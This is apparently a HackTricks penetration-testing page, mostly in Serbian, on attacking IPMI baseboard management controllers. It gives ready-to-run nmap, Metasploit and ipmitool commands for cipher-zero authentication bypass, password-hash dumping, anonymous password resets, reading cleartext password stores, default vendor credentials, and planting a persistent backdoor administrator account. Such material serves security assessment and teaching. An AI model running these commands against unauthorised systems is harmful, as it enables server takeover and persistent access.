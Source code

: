 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

### **Overview of IPMI**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** nudi standardizovani pristup za daljinsko upravljanje i nadgledanje računarskih sistema, nezavisno od operativnog sistema ili stanja napajanja. Ova tehnologija omogućava sistem administratorima da upravljaju sistemima na daljinu, čak i kada su isključeni ili neodgovaraju, i posebno je korisna za:

- Konfiguracije pre pokretanja operativnog sistema
- Upravljanje isključenjem
- Oporavak od sistemskih grešaka

IPMI je sposoban da nadgleda temperature, napone, brzine ventilatora i napajanja, uz pružanje informacija o inventaru, pregledanje hardverskih logova i slanje upozorenja putem SNMP-a. Osnovni zahtevi za njegov rad su izvor napajanja i LAN konekcija.

Od svog uvođenja od strane Intela 1998. godine, IPMI je podržan od strane brojnih dobavljača, poboljšavajući mogućnosti daljinskog upravljanja, posebno sa podrškom verzije 2.0 za serijsku komunikaciju preko LAN-a. Ključne komponente uključuju:

- **Baseboard Management Controller (BMC):** Glavni mikro-kontroler za IPMI operacije.
- **Communication Buses and Interfaces:** Za internu i eksternu komunikaciju, uključujući ICMB, IPMB i razne interfejse za lokalne i mrežne konekcije.
- **IPMI Memory:** Za čuvanje logova i podataka.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Default Port**: 623/UDP/TCP (Obično je na UDP-u, ali može biti i na TCP-u)

## Enumeration

### Discovery
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
Možete **identifikovati** **verziju** koristeći:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI Ranljivosti

U oblasti IPMI 2.0, značajna sigurnosna slabost otkrivena je od strane Dana Farmera, otkrivajući ranjivost kroz **cipher type 0**. Ova ranjivost, dokumentovana u detalje na [istraživanju Dana Farmera](http://fish2.com/ipmi/cipherzero.html), omogućava neovlašćen pristup sa bilo kojom lozinkom pod uslovom da je ciljana validna korisnička. Ova slabost je pronađena kod različitih BMC-ova proizvođača kao što su HP, Dell i Supermicro, što sugeriše široko rasprostranjen problem unutar svih IPMI 2.0 implementacija.

### **IPMI Zaobilaženje Autentifikacije putem Cipher 0**

Da bi se otkrila ova slabost, može se koristiti sledeći Metasploit pomoćni skener:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
Eksploatacija ove greške je moguća sa `ipmitool`, kao što je prikazano u nastavku, omogućavajući listanje i modifikaciju korisničkih lozinki:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP Autentifikacija Udaljeno Preuzimanje Hash-a Lozinke**

Ova ranjivost omogućava preuzimanje zasoljenih hash-ova lozinki (MD5 i SHA1) za bilo koje postojeće korisničko ime. Da biste testirali ovu ranjivost, Metasploit nudi modul:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI Anonymous Authentication**

Podrazumevana konfiguracija u mnogim BMC-ima omogućava "anonimni" pristup, koji se karakteriše nul korisničkim imenom i lozinkom. Ova konfiguracija se može iskoristiti za resetovanje lozinki imenovanih korisničkih naloga koristeći `ipmitool`:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI Lozinke u Čistom Tekstu**

Kritična dizajnerska odluka u IPMI 2.0 zahteva skladištenje lozinki u čistom tekstu unutar BMC-a u svrhe autentifikacije. Skladištenje ovih lozinki na mestima kao što su `/nv/PSBlock` ili `/nv/PSStore` postavlja značajne bezbednosne brige:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Ranljivost**

Uključivanje UPnP SSDP slušatelja u Supermicro-ovom IPMI firmveru, posebno na UDP portu 1900, uvodi ozbiljan bezbednosni rizik. Ranljivosti u Intel SDK za UPnP uređaje verzije 1.3.1, kako je detaljno opisano u [Rapid7-ovom otkriću](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), omogućavaju pristup root-u BMC-u:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP nasumično generiše podrazumevanu lozinku** za svoj **Integrated Lights Out (iLO)** proizvod tokom proizvodnje. Ova praksa se razlikuje od drugih proizvođača, koji obično koriste **statične podrazumevane akreditive**. Sažetak podrazumevanih korisničkih imena i lozinki za različite proizvode je dat u nastavku:

- **HP Integrated Lights Out (iLO)** koristi **fabricki nasumično generisanu 8-znamenkastu string** kao svoju podrazumevanu lozinku, pokazujući viši nivo sigurnosti.
- Proizvodi poput **Dell-ovog iDRAC, IBM-ovog IMM** i **Fujitsu-ovog Integrated Remote Management Controller** koriste lako pogađajuće lozinke kao što su "calvin", "PASSW0RD" (sa nulom) i "admin" redom.
- Slično tome, **Supermicro IPMI (2.0), Oracle/Sun ILOM** i **ASUS iKVM BMC** takođe koriste jednostavne podrazumevane akreditive, pri čemu "ADMIN", "changeme" i "admin" služe kao njihove lozinke.


## Accessing the Host via BMC

Administrativni pristup Kontroleru upravljanja matičnom pločom (BMC) otvara različite puteve za pristup operativnom sistemu hosta. Jednostavan pristup uključuje iskorišćavanje KVM funkcionalnosti BMC-a. To se može uraditi ili ponovnim pokretanjem hosta u root shell putem GRUB-a (koristeći `init=/bin/sh`) ili pokretanjem sa virtuelnog CD-ROM-a postavljenog kao disk za oporavak. Ove metode omogućavaju direktnu manipulaciju diskom hosta, uključujući umetanje backdoor-a, ekstrakciju podataka ili bilo koje potrebne radnje za procenu sigurnosti. Međutim, ovo zahteva ponovno pokretanje hosta, što je značajan nedostatak. Bez ponovnog pokretanja, pristup aktivnom hostu je složeniji i varira u zavisnosti od konfiguracije hosta. Ako fizička ili serijska konzola hosta ostane prijavljena, može se lako preuzeti putem KVM ili serial-over-LAN (sol) funkcionalnosti BMC-a koristeći `ipmitool`. Istraživanje iskorišćavanja zajedničkih hardverskih resursa, poput i2c magistrale i Super I/O čipa, je oblast koja zahteva dalju istragu.

## Introducing Backdoors into BMC from the Host

Nakon kompromitovanja hosta opremljenog BMC-om, **lokalni BMC interfejs se može iskoristiti za umetanje backdoor korisničkog naloga**, stvarajući trajnu prisutnost na serveru. Ovaj napad zahteva prisustvo **`ipmitool`** na kompromitovanom hostu i aktivaciju podrške za BMC drajvere. Sledeće komande ilustruju kako se novi korisnički nalog može ubrizgati u BMC koristeći lokalni interfejs hosta, što zaobilazi potrebu za autentifikacijom. Ova tehnika je primenljiva na širok spektar operativnih sistema uključujući Linux, Windows, BSD, pa čak i DOS.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
